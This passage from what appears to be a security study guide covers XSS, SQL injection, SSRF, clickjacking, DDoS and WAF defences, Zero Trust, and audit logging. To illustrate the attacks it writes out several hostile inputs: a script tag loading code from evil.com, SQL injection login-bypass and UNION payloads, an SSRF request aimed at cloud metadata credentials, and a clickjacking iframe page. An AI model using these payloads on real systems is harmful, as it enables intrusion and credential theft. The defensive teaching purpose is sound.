User input → validate format → sanitize (if rich HTML) → store
On render → context-aware encode (HTML, attr, JS, URL) → CSP header on response
Session cookie: HttpOnly; Secure; SameSite
```



**Cookie theft mitigation:** `Set-Cookie: SESSION=abc; HttpOnly; Secure` — even if XSS runs, `document.cookie` cannot read the session. CSP `script-src 'self'` blocks inline attacker scripts unless nonce/hash policy is misconfigured.

Modern frameworks (React, Vue, Angular) escape text interpolations by default; risk returns with `dangerouslySetInnerHTML`, raw HTML pipes, and server-side templates that disable auto-escape.

---

#### Pitfalls and design tips

- Encode for **context** — HTML encoding is wrong for JavaScript or URL sinks; use framework escapers per context.
- **CSP** with `'unsafe-inline'` or broad `script-src *` weakens the main XSS backstop.
- Sanitization libraries must be **allowlist-based**; regex strip of `<script>` is bypassable (``).
- DOM XSS in single-page apps is common in `innerHTML`, `eval`, `location.href = userInput`, and postMessage handlers without origin checks.
- Stored XSS in **admin panels** (user-generated report names, log fields) is high impact — attackers target operators.
- WAF XSS rules are a safety net, not a substitute for encoding at the template layer.
- Interview: distinguish **XSS (code in your origin)** from **CSRF (forged requests with cookies)** — XSS can steal tokens; CSRF abuses cookies without running code on your domain.

---

#### Real-world example

**Stored XSS in a comment system:** Disqus-style widgets and many self-hosted forums historically stored comments as HTML. An attacker posts `<script src="https://evil.com/hook.js">`. Without server-side sanitization (e.g. OWASP Java Encoder on output, or DOMPurify on ingest), every reader executes the script in the forum's origin. With **Content-Security-Policy: default-src 'self'; script-src 'self'**, inline and external evil scripts are blocked even if HTML sanitization fails once — defense in depth. GitHub issue comments render Markdown through a strict pipeline (sanitize → encode) specifically to prevent this class of bug at scale.

---


### SQL injection

#### Overview

A login form asks for your name; instead you answer with a full set of instructions the receptionist reads aloud to the database clerk verbatim. If the clerk follows every word as SQL, you can list every room or walk in without a real key. **SQL injection (SQLi)** is untrusted input breaking out of its quoted string or numeric slot and becoming part of the query language itself.

Technically, SQLi happens when application code builds SQL by concatenating user input. The database parser cannot tell data from code — `1 OR 1=1` in a `WHERE` clause changes logic; `' UNION SELECT password FROM users --` exfiltrates columns the app never intended to return.

---

#### What problem it fixes

Relational databases execute whatever SQL string the application sends. Without parameter binding, any field — search box, login form, sort column, JSON filter — can alter query structure. SQLi fixes enforce a strict separation: **query shape is fixed at compile/prepare time; user values are bound as data only.**

---

#### What it does

Primary and supporting controls:

| Control | Role |
|---------|------|
| **Prepared statements / parameterized queries** | Placeholders (`?`, `$1`) — driver sends plan and values separately |
| **ORM parameterization** | Query builders bind values; avoid raw string SQL with interpolation |
| **Input validation** | Allowlist IDs as integers, emails as patterns — reduces attack surface |
| **Least-privilege DB user** | App role cannot `DROP TABLE`, `FILE`, or read admin tables |
| **Error hygiene** | Generic client errors; no stack traces or SQL syntax leaking schema |
| **WAF** | Blocks obvious payloads (`' OR 1=1`, `UNION SELECT`) — belt, not suspenders |

Injection classes:

| Type | Attacker sees results? | Technique |
|------|------------------------|-----------|
| **In-band (union/error)** | Yes | `UNION SELECT`, forced errors |
| **Blind boolean** | No direct rows | `AND 1=1` vs `AND 1=2` changes page behavior |
| **Time-based blind** | Timing only | `SLEEP(5)` if condition true |
| **Out-of-band** | Via DNS/HTTP side channel | Rare; requires DB features allowing external calls |

---

#### How it works — the architecture inside

**Vulnerable login:**

```text
query = "SELECT * FROM users WHERE username='" + user + "' AND password='" + pass + "'"
Input password: ' OR '1'='1
Final: ... AND password='' OR '1'='1'  → returns admin row → auth bypass
```

**Safe parameterized query:**

```sql
SELECT * FROM users WHERE username = ? AND password_hash = ?
-- bind: ("admin", computed_hash) — input never parsed as SQL
```

**Union exfiltration (in-band):**

```sql
-- Original: SELECT name, price FROM products WHERE id = '1'
-- Injected id: 1' UNION SELECT username, password FROM users --
-- DB returns attacker-chosen columns from users table
```



**Defense stack:**

```text
HTTP request → WAF signature check → app validates types → ORM/prepare with binds
→ DB connection as least-privilege role → errors logged server-side only
```

---

#### Pitfalls and design tips

- **String formatting is never safe** — `f"SELECT ... {id}"` and stored procedures with dynamic SQL inside are still vulnerable if built by concat.
- ORMs are not magic: `.raw()`, `execute(f"...")`, and sortable column names from user input re-open SQLi.
- **Second-order SQLi** — payload stored in DB, executed later in a different query without binding.
- `LIKE` clauses and `IN (...)` lists need binding per element, not manual quote escaping.
- DB user for the app should lack **DDL** and **SUPER** privileges; use read replicas for reporting with read-only roles.
- WAF blocks `' OR 1=1` but misses encoded/obfuscated variants — always parameterize in code.
- NoSQL injection (MongoDB `$where`, operator injection) follows the same mental model — untrusted input must not become operators.

---

#### Real-world example

**Authentication bypass in legacy PHP apps** (documented in countless CVEs): `mysql_query("SELECT * FROM users WHERE user='$user' AND pass='$pass'")` with password `' OR '1'='1' --` logs in as the first user. Migration to **PDO prepared statements** (`$stmt->execute([$user, $pass])`) fixes the injection path. Shopify, WordPress plugins, and enterprise CRMs have shipped similar patches — the pattern is universal: parameterized queries plus removing DB admin rights from the web tier. Tools like **sqlmap** automate blind extraction against remaining concat-based endpoints during pentests.

---


### SSRF

#### Overview

You ask a hotel concierge to fetch a package from an address you provide. You give them the staff-only floor plan room instead of a public shop — the concierge has master access, so they bring back internal documents you could never reach yourself. **SSRF (Server-Side Request Forgery)** is the same: the attacker supplies a URL; your **server** fetches it, often from networks and metadata endpoints the public internet cannot touch.

Technically, SSRF is a vulnerability where user-controlled URLs (or hostnames) drive server-side HTTP clients, DNS resolvers, or image processors. The server's network position — localhost, VPC private ranges, cloud metadata at `169.254.169.254` — becomes the attacker's vantage point.

---

#### What problem it fixes

Features like "import image from URL," webhook callbacks, PDF renderers, and SSO validators inherently perform outbound requests. If the target is fully attacker-controlled without validation, the server becomes a proxy into internal infrastructure. SSRF controls constrain **where** the server may connect and **what** responses are returned to the caller.

---

#### What it does

Mitigations combine application rules and network posture:

| Control | Purpose |
|---------|---------|
| **Domain allowlist** | Only `api.trusted-cdn.com`, not arbitrary hosts |
| **Block private/reserved IPs** | Reject `127.0.0.1`, `10/8`, `192.168/16`, `169.254.169.254` |
| **DNS rebinding awareness** | Resolve hostname, then validate IP before connect |
| **Disable redirect follow** | `attacker.com` → `302` → `http://127.0.0.1/admin` |
| **Network segmentation** | App tier cannot reach admin APIs or metadata |
| **IMDSv2 (AWS)** | Metadata requires session token — raises bar on cloud credential theft |
| **Egress firewall** | Outbound allowlist at VPC level |

SSRF variants: **basic** (response visible to attacker), **blind** (no direct response — infer via timing/webhooks), **partial** (only path or scheme partially controlled).

---

#### How it works — the architecture inside

**Image proxy feature — vulnerable:**

```text
POST /fetch-image  body: { "url": "http://localhost:8080/admin/users" }
Server: GET http://localhost:8080/admin/users → returns internal JSON → leaked to attacker
```

**Cloud metadata attack (AWS classic):**

```text
Attacker sets url = http://169.254.169.254/latest/meta-data/iam/security-credentials/role-name
Server fetches → temporary AWS access key in response → attacker exfiltrates via error message or stored output
```

**Redirect-based SSRF:**

```text
Server fetches http://evil.com/redirect
  → 302 Location: http://10.0.0.5:6379/  (internal Redis)
  → if redirects followed, internal service probed
```

**Safe handling pattern:**

```text
Parse URL → scheme in {https} only → resolve DNS → IP not in blocklist
  → host in allowlist → fetch with redirects disabled → timeout + size cap → return sanitized body
```



---

#### Pitfalls and design tips

- **Denylists alone fail** — attackers use decimal IPs (`2130706433` = 127.0.0.1), IPv6 (`::1`), DNS rebinding, and URL parsers that disagree (`http://127.1`, `@` tricks).
- Validate **after DNS resolution** on the IP you actually connect to, not just the hostname string.
- **PDF generators, headless Chrome, and webhooks** are common SSRF sinks — audit all outbound fetchers.
- Blind SSRF still enables port scanning and triggering internal actions (Redis `CONFIG`, Jenkins script consoles).
- Link-local metadata exists on **GCP, Azure, and Kubernetes** too — not AWS-only.
- Return only necessary response bytes; error messages must not echo full internal response bodies.
- Interview: SSRF is **server** as victim; CSRF is **user browser** as victim — different trust boundaries.

---

#### Real-world example

**Capital One breach (2019)** involved SSRF against an misconfigured WAF and metadata access pattern — an attacker exploited a server-side request path to reach cloud instance metadata and obtain IAM role credentials, then exfiltrated S3 data. Remediation across the industry accelerated **IMDSv2** adoption (session-oriented metadata) and blocking `169.254.169.254` at egress. For application design, GitHub's **SSRF guidance** for webhooks requires fixed callback allowlists and treats user-supplied URLs in CI log viewers and import features as high-risk code paths.

---


### Clickjacking

#### Overview

You tap "Claim free prize" on a flashy ad, but invisible glass under your finger actually presses "Confirm wire transfer" on a bank page loaded beneath it. **Clickjacking** (UI redressing) does not inject code — it stacks a deceptive interface over a real one inside the browser so your click lands on a hidden button or link.

Technically, clickjacking embeds a target site in a transparent `<iframe>` (or similar) and overlays attacker-controlled UI. The victim interacts with what they see; the browser delivers the click to the obscured frame, performing authenticated actions if the user is already logged into the framed site.

---

#### What problem it fixes

Browsers happily render nested browsing contexts. Without framing policy, any site can iframe your checkout or settings page and capture clicks. Clickjacking defenses tell the browser **who may embed your pages** and add UX friction for irreversible actions.

---

#### What it does

| Defense | Effect |
|---------|--------|
| **`X-Frame-Options: DENY`** | Legacy header — page cannot be framed |
| **`X-Frame-Options: SAMEORIGIN`** | Only same site may iframe |
| **CSP `frame-ancestors`** | Modern replacement — `'none'` or `'self'` |
| **Frame-busting JS** | `if (top !== self) top.location = self.location` — weak alone |
| **User confirmation** | Re-auth, OTP, typed "DELETE" for destructive ops |
| **SameSite cookies** | Indirect — limits some cross-site cookie contexts |

Clickjacking vs XSS: clickjacking manipulates **clicks** without script injection; XSS runs arbitrary JS in your origin.

---

#### How it works — the architecture inside

**Attack layout:**

```html
<!-- evil.com -->
<style>
  iframe { opacity: 0; position: absolute; top: 0; left: 0; width: 100%; height: 100%; }
  .fake-btn { position: absolute; z-index: 2; /* aligned over real "Transfer" in iframe */ }
</style>
<iframe src="https://bank.com/one-click-transfer"></iframe>
<button class="fake-btn">Win iPhone!</button>
```

```text
User sees "Win iPhone" → click coordinates hit iframe's Transfer button
If session cookie is present → bank processes transfer
```

**Defense response headers:**

```http
Content-Security-Policy: frame-ancestors 'none';
X-Frame-Options: DENY
```

Browser refuses to render the page inside evil.com's iframe — attack surface removed.



**Sensitive flows:** require explicit confirmation dialog ("Send $500 to account 1234?") so a single misaligned click is insufficient.

---

#### Pitfalls and design tips

- Prefer **CSP `frame-ancestors`** over frame-busting scripts — JS can be suppressed in sandboxed iframes.
- `SAMEORIGIN` still allows your own pages to iframe sensitive endpoints — watch for **self-XSS + clickjacking** combos on subdomains.
- Payment widgets that **must** be iframed need tightly scoped `frame-ancestors https://partner.com` — not `'none'` globally on every page.
- Mobile WebViews and embedded browsers may ignore headers — test native shells separately.
- **Likejacking** on social platforms (invisible Like button) was widespread before `X-Frame-Options` defaults — historical lesson in framing policy.
- Double-click or drag-to-confirm patterns reduce accidental actions but are not security boundaries alone.

---

#### Real-world example

**Facebook Likejacking (circa 2010):** Attack pages embedded invisible Facebook iframes with Like buttons positioned under "Play video" graphics. Users spread spam by clicking play. Facebook rolled out **`X-Frame-Options: DENY`** on sensitive endpoints and UI changes requiring explicit confirmation for permissions. Today, **Stripe Checkout** and banking portals set `Content-Security-Policy: frame-ancestors 'none'` on payment flows so third-party sites cannot embed the confirmation step — a direct application of the same defense pattern.

---


<a id="1010-ddos-protection-waf"></a>

## 10.10 DDoS Protection & WAF

### Overview

A shop designed for fifty customers per hour suddenly faces ten thousand people shoving at the door — most are not buying, they are blocking real shoppers from entering. **DDoS (Distributed Denial of Service)** floods a target with traffic from many sources (botnets, amplified UDP, application-layer scrapers) until bandwidth, connection tables, or CPU are exhausted and legitimate users see timeouts or errors.

Technically, DDoS is an availability attack at layer 3–7: volumetric floods saturate links, protocol attacks (SYN flood) exhaust state, and application attacks (HTTP POST storms on `/login`) burn app and database capacity. Defense is **layered absorption and filtering** at the edge before traffic reaches origin.

---

### What problem it fixes

Any public endpoint has finite capacity. Attackers distribute load across compromised hosts or reflection amplifiers so block-by-single-IP fails. Without edge scrubbing, rate limits, and scaling strategy, a moderate botnet can take down an unprotected origin regardless of application code quality.

---

### What it does

Defense layers (outermost first):

| Layer | Techniques |
|-------|------------|
| **Network / volumetric** | Anycast, CDN, ISP/cloud scrubbing centers, blackhole routing |
| **Protocol** | SYN cookies, connection limits, firewall SYN proxies |
| **Application (L7)** | Rate limiting, CAPTCHA, bot scoring, WAF, caching |
| **Infrastructure** | Autoscaling, backpressure (`429`), queue shedding |
| **Architecture** | Stateless edges, read replicas, cache hot paths |

Attack types:

```text
Volume:     UDP/ICMP floods → saturate Gbps
Protocol:   SYN flood → fill connection table
Application: HTTP flood on /api/search → CPU + DB meltdown
```

---

### How it works — the architecture inside

**Attack path:**

```text
Botnet (100k hosts) → SYN/HTTP flood → edge router → load balancer → app tier → database
Each layer exhausts: bandwidth → SYN backlog → worker threads → connection pool
```

**Defense path:**

```text
Internet → Anycast CDN edge (absorb + cache static) → DDoS scrubbing (Cloudflare/AWS Shield)
  → rate limit per IP/ASN → WAF bot rules → origin LB → autoscaling app pool
  → cache (Redis/CDN) for repeat reads → DB with connection limits
```

**Rate limiting models:**

```text
Fixed window:   100 req/min per IP — simple; burst at window edge
Sliding window: smoother distribution
Token bucket:   allows controlled bursts
Leaky bucket:   constant outbound processing rate
```

**How to calculate — rate limit per IP:**

```text
Given: WAF rule = 100 req/min per IP (fixed window), attacker single IP sends 150 req/min for 2 min

Step 1 — minute 1 allowance:
  allowed = 100, blocked = 50

Step 2 — minute 2 (window reset):
  allowed = 100 again, blocked = 50 (fixed window allows 200 req/2 min)

Step 3 — sliding window improvement (same 100/min cap):
  weighted count at minute 1:59 with 90 prior + 10 new → smoother, fewer edge bursts

Step 4 — login endpoint stricter cap:
  /login = 10 req/min per IP → 6 failed attempts/min still blocked after 10

Result: origin sees ≤ 100 req/min/IP at edge; combine with ASN scoring for botnets

Sanity check: 100k bots × 100 req/min = 10M req/min — per-IP limits alone fail;
             CDN/scrubbing must drop volumetric junk before WAF rate rules matter.
```

**How to calculate — DDoS mitigation capacity:**

```text
Given: origin capacity = 2,000 req/s (20 app servers × 100 req/s each),
       attack = 50,000 req/s L7 flood, CDN caches 60% of URL mix, scrubbing drops 95% of remainder

Step 1 — attack after CDN cache hit:
  miss traffic = 50,000 × 40% = 20,000 req/s to scrubbing tier

Step 2 — after scrubbing (95% junk removed):
  origin_load = 20,000 × 5% = 1,000 req/s

Step 3 — compare to origin capacity:
  1,000 req/s < 2,000 req/s → origin survives with ~50% headroom

Step 4 — if scrubbing absent:
  50,000 req/s >> 2,000 req/s → outage in seconds regardless of autoscale cost

Result: edge must absorb ≥ 96% of attack before origin; autoscale alone is not defense

Sanity check: 1.35 Tbps volumetric needs provider scrubbing (Akamai/Shield), not app replicas;
             hide origin IP behind CDN or attackers bypass all L7 rules.
```



**Autoscaling caveat:** adding servers handles **load spikes** but attackers scale too — you pay for their traffic unless filtered upstream. Scrubbing at provider edge is cost-effective.

**Backpressure:** when overloaded, return `503`/`429` quickly rather than queue unbounded — protects thread pools and DB.

---

### Pitfalls and design tips

- **Autoscaling alone is not DDoS protection** — it becomes an expensive loss if attack traffic is not dropped at edge.
- L7 attacks look like legitimate HTTP — need **behavioral bot detection**, not only IP blocklists.
- Protect **origin IP** — if attackers bypass CDN and hit raw IP, defenses fail; firewall allow only CDN ranges.
- SYN floods need **kernel/host tuning** (SYN cookies, `somaxconn`) in addition to cloud shields.
- Rate limits on **login** and **password reset** prevent credential stuffing that doubles as app-layer DDoS.
- Game-day: test failover and static fallback pages when dynamic tier is saturated.
- Cost controls: alert on bandwidth anomalies; enable provider DDoS response runbooks (AWS Shield Advanced, Cloudflare Under Attack mode).

---

### Real-world example

**GitHub (2018) — 1.35 Tbps memcached amplification** hit Akamai-protected endpoints; traffic was absorbed at Akamai's scrubbing network while origin stayed reachable. Smaller teams use **Cloudflare proxied DNS** so HTTP traffic passes through bot management before reaching a single-region origin. **AWS Shield Standard** automatically mitigates common L3/L4 floods on Elastic IP and CloudFront; during an application-layer campaign on `/api`, operators enable WAF rate-based rules (e.g. block IPs exceeding 2000 req/5 min) and increase CloudFront caching on public JSON to shed database load.

---


### WAF

#### Overview

A nightclub bouncer checks bags at the door against a list of banned items and suspicious behavior — patrons never reach the dance floor with weapons or if they are clearly bots storming the entrance. A **Web Application Firewall (WAF)** sits in front of your HTTP stack and inspects each request's URL, headers, and body before it hits application code.

Technically, a WAF is an inline or reverse-proxy filter for HTTP/HTTPS that applies signature rules, rate limits, geo policies, and behavioral scores to block OWASP Top 10 patterns (SQLi, XSS, path traversal) and abusive automation. It centralizes edge security without changing every microservice.

---

#### What problem it fixes

Application code evolves faster than security reviews; one legacy endpoint with string-built SQL can compromise the whole database. WAF provides a **uniform inspection point** for malicious payloads and bots, logs attack attempts, and can challenge or throttle abusive IPs while teams patch root causes.

---

#### What it does

WAF deployment models:

| Type | Trade-off |
|------|-----------|
| **Cloud WAF** | AWS WAF + CloudFront/ALB, Cloudflare, Azure Front Door — managed, scalable |
| **Network appliance** | Hardware reverse proxy — low latency, capital cost |
| **Host-based** | ModSecurity on nginx — per-server tuning, ops burden |

Detection approaches:

```text
Signature (negative):  block if body contains "' OR 1=1" or "<script>"
Behavioral:            1000 POSTs/min to /login from one ASN → block
Positive (allowlist):  only /api/v1/users, /health allowed — strict APIs
```

Common blocks: SQLi, XSS, RFI/LFI, path traversal (`../`), command injection, scanner user-agents.

---

#### How it works — the architecture inside

**Request decision flow:**

```text
Client → TLS terminate at edge → WAF inspect URL/query/body/headers
  → rule groups (OWASP Core Rule Set, AWS Managed Rules) → match?
    ALLOW → forward to LB → app
    BLOCK → 403 + log
    COUNT → log only (tuning mode)
    CAPTCHA / challenge → bot verification
```

**Example SQLi block:**

```http
GET /products?id=1 UNION SELECT password FROM users
```
WAF matches `UNION SELECT` signature → request never reaches app.

**Rate-based rule:**

```text
IF client IP > 100 requests in 60s to /api/login THEN block IP for 10 minutes
```



**False positives:** legitimate input like `"O'Reilly"` or search for `"SELECT * from menu"` can trigger naive rules — start in **count mode**, tune exclusions, use CRS paranoia level appropriate to risk.

**Performance:** edge WAF adds single-digit milliseconds; heavy body inspection on large uploads may need size limits and selective rule application on sensitive routes only.

---

#### Pitfalls and design tips

- WAF **does not replace** parameterized queries, output encoding, or authz — it is compensating control for gaps and zero-days.
- **False positives** break checkout and search — maintain per-route rule exceptions with narrow scope.
- Log **blocked request IDs** and correlate with app logs during incident response.
- Managed rule sets need **version updates** — stale CRS misses new exploit chains.
- For JSON APIs, inspect `Content-Type` and parse body fields; regex on raw stream misses encoded payloads.
- Combine with **bot management** (JavaScript challenge, device fingerprint) for L7 DDoS and scraping.
- PCI-DSS often expects WAF or equivalent on public-facing cardholder environments — know compliance mapping.

---

#### Real-world example

**AWS WAF on ALB:** A team attaches AWS Managed Rules `AWSManagedRulesSQLiRuleSet` and `AWSManagedRulesKnownBadInputsRuleSet` to an Application Load Balancer. A scanner hits `/admin?id=1' OR '1'='1` — WAF returns 403, CloudWatch metric `BlockedRequests` spikes, SNS alerts SecOps. During rollout, search endpoint queries containing the word "union" (wine **union** listings) triggered false positives; they add a **scope-down statement** excluding `/api/search` from the SQLi rule group while keeping parameterized queries in application code. Cloudflare's OWASP Core Ruleset offers similar managed protection with one-click "Under Attack" mode during active campaigns.

---


<a id="1011-zero-trust-security"></a>

## 10.11 Zero Trust Security

### Overview

Old office security assumed: once you badge through the lobby, every corridor is yours. Zero Trust assumes the building may already have an intruder — every door, every time, checks who you are, what you need, and whether your laptop is healthy before opening.

**Zero Trust** is a security model where no user, device, or network location receives implicit trust. Every access request is authenticated, authorized, and continuously evaluated against policy using identity, device posture, and context — regardless of whether the caller is "inside" the corporate VPN or the public cloud.

---

### What problem it fixes

Perimeter firewalls collapse in cloud and remote-work reality: VPN users get broad lateral movement; compromised laptops on "trusted" Wi-Fi reach internal admin panels; microservices talk over flat networks. A single breach becomes domain-wide because **inside meant trusted**. Zero Trust shrinks blast radius by verifying each hop and granting least privilege.

---

### What it does

Core principles map to concrete mechanisms:

| Principle | Implementation |
|-----------|----------------|
| **Never trust, always verify** | MFA, short-lived tokens, per-request authZ |
| **Least privilege** | RBAC/ABAC scopes; service accounts per workload |
| **Assume breach** | Micro-segmentation, honeypots, continuous monitoring |
| **Identity as perimeter** | SSO + IdP signals (device, location, risk score) |

Architecture components:

```text
Policy Engine (PDP)  — decides ALLOW / DENY / STEP-UP MFA
Policy Enforcement Point (PEP) — API gateway, service mesh sidecar enforces decision
Policy Administration Point — defines roles, policies
```

---

### How it works — the architecture inside

**Traditional vs Zero Trust:**

```text
Traditional:  Internet → firewall → flat internal network → any app
Zero Trust:   User/device → IdP (MFA) → policy engine → PEP at each API/mesh hop → service
              Service A → mTLS + JWT → Service B verifies identity + scope before work
```

**Micro-segmentation:**

```text
Payment VPC ← deny → Analytics VPC
Order service SA may call Inventory gRPC only with "inventory.read" scope
East-west traffic default deny; allow by explicit policy
```

**Continuous verification signals:**

```text
User login from new country + jailbroken device + 3 AM → risk score high → require MFA or deny
Session token TTL 15 min; refresh requires re-validation
Device cert expired → block corporate app access
```



**Microservices:** **mTLS** (SPIFFE/SPIRE, Istio) proves workload identity; **JWT with scopes** limits what each token can call. Secrets fetched per request from vault with short TTL — never long-lived shared passwords between services.

**Context-aware access:** time, geo, IP reputation, and behavior feed the policy engine — same user, different decision on corp laptop vs unknown mobile.

---

### Pitfalls and design tips

- Zero Trust is a **program**, not a product checkbox — needs IdP hygiene, asset inventory, and policy lifecycle.
- **Performance overhead** from per-request authZ and mTLS — cache decisions with short TTL where safe.
- Legacy apps that assume flat network need **wrappers** (sidecar PEP) rather than big-bang rewrites.
- Overly aggressive step-up MFA hurts UX — tune risk-based policies with real login telemetry.
- **Service accounts** multiply — automate rotation and disable unused principals; otherwise Zero Trust becomes credential sprawl.
- Google **BeyondCorp** and Microsoft **Zero Trust** reference architectures are the interview anchors — identity-centric, no corporate VPN required.
- Pair with **audit logging** (10.21) — policy denials and anomalous east-west traffic must be visible.

---

### Real-world example

**Google BeyondCorp:** Employees access internal tools over the public internet without a traditional VPN. Device inventory and certificate establish device trust; access proxy checks user + device + app policy on every request. A contractor laptop failing patch compliance receives deny on source code hosts even on office Wi-Fi. In Kubernetes, **Istio** with **SPIFFE IDs** enforces mTLS between `payments` and `ledger` namespaces — `ledger` rejects connections from `marketing` pods at the mesh layer before application code runs, embodying micro-segmentation without manual firewall tickets per service pair.

---


<a id="1012-audit-logging"></a>

## 10.12 Audit Logging

### Overview

A building's security camera tape answers after an incident: who entered the server room, when, with whose badge, and whether the door alarm fired. **Audit logging** is the tamper-evident record of security-relevant actions in software — not debug stack traces, but who changed what, from where, and whether it succeeded.

Technically, audit logging captures structured, append-only events for authentication, authorization decisions, data mutations, configuration changes, and secret operations. Logs flow to centralized storage and SIEM tools for compliance, forensics, and real-time alerting.

---

### What problem it fixes

Without audit trails you cannot reconstruct breaches ("which API key leaked data?"), prove compliance (PCI, HIPAA, SOC 2), or detect insider abuse. Application debug logs are noisy, mutable, and lack consistent identity fields. Audit logging fixes **accountability** and **non-repudiation** for sensitive operations.

---

### What it does

A complete audit entry answers:

```text
WHO   — userId, service principal, API key id
WHAT  — action (LOGIN, UPDATE_PROFILE, DELETE_RECORD, SECRET_READ)
WHEN  — ISO 8601 timestamp (UTC)
WHERE — source IP, device, geo, request id
OUTCOME — SUCCESS / FAILURE / DENIED
RESOURCE — entity type, id, before/after for changes
```

Distinct from application logs:

| | Application log | Audit log |
|---|-----------------|-----------|
| **Purpose** | Debug, performance | Security, compliance, accountability |
| **Audience** | Engineers on-call | SecOps, auditors, legal |
| **Mutability** | Often rotatable | Append-only, long retention |
| **Content** | Stack traces, timings | Who did what to which record |

Event categories: authentication, authorization, data CRUD on regulated fields, admin/config changes, key rotation, permission grants.

---

### How it works — the architecture inside

**Pipeline:**

```text
User action → app handler → audit middleware emits structured JSON
  → async queue (Kafka, Pub/Sub) → central store (S3 + Glacier, Elasticsearch, Splunk)
  → SIEM rules → alerts (impossible travel, mass delete, after-hours admin)
```

**Example entries:**

```json
{
  "userId": "u123",
  "action": "LOGIN",
  "status": "SUCCESS",
  "ip": "203.0.113.10",
  "timestamp": "2026-06-26T10:15:00Z",
  "device": "Chrome/Windows"
}
```

```json
{
  "userId": "u123",
  "action": "UPDATE_PROFILE",
  "resource": "user:u123",
  "field": "email",
  "oldValue": "old@mail.com",
  "newValue": "new@mail.com",
  "status": "SUCCESS",
  "timestamp": "2026-06-26T10:20:00Z",
  "requestId": "req-9f2a"
}
```

**Immutability:** WORM storage, object locking, hash chaining, or write-once indices — attackers who gain app access should not erase evidence.

**Distributed services:** each microservice publishes to a shared audit stream with consistent schema (`actor`, `action`, `target`, `result`) rather than siloed files on disk.

```mermaid
flowchart LR
    SvcA[Service A] --> Queue[Kafka / PubSub]
    SvcB[Service B] --> Queue
    SvcC[Service C] --> Queue
    Queue --> Store[Central audit store]
    Store --> SIEM[SIEM / Splunk]
    SIEM --> Alert[Alerts + dashboards]
```

**Retention:** align with regulation — 30 days minimum for ops, 1 year common, 5–7 years for finance/health records. Legal hold may override TTL.

**Access control:** only security/compliance roles read audit indices; separate from application log viewers. Encrypt at rest and in transit.

---

### Pitfalls and design tips

- **Unstructured strings** ("user updated profile") are unqueryable — enforce JSON schema with required fields.
- Do not log **secrets, passwords, or full PAN** — log that a change occurred, not the new password.
- Clock skew across hosts breaks timelines — use **NTP** and include monotonic `requestId` for correlation.
- High-volume read endpoints can **flood audit store** — audit writes and security events, not every GET.
- Tamper resistance fails if attackers gain **SIEM admin** — separate account hierarchy and MFA on log platform.
- Test **restore and search** during drills; archived Glacier tiers have retrieval latency unfit for live incident hour one.
- Map events to compliance controls (SOC 2 CC7.2, PCI 10.2) early — retroactive schema changes are painful.

---

### Real-world example

**SOC 2 Type II audit:** A fintech runs all admin actions through an API that emits audit events to **Kafka** topic `audit.events`, consumed into **Elasticsearch** with index lifecycle management (hot 30 days, warm 1 year). When an analyst investigates a suspicious wire transfer, they query `action:TRANSFER AND userId:u456 AND timestamp:[...]` and correlate with **CloudTrail** `GetSecretValue` on the same `requestId` propagated through headers. Failed login spikes trigger a **Splunk** alert to PagerDuty within five minutes. Auditors sample proof that DELETE on `customer_pii` always produces an immutable record with actor and outcome — satisfying traceability requirements without giving auditors raw production DB access.


[<- Back to master index](../README.md)
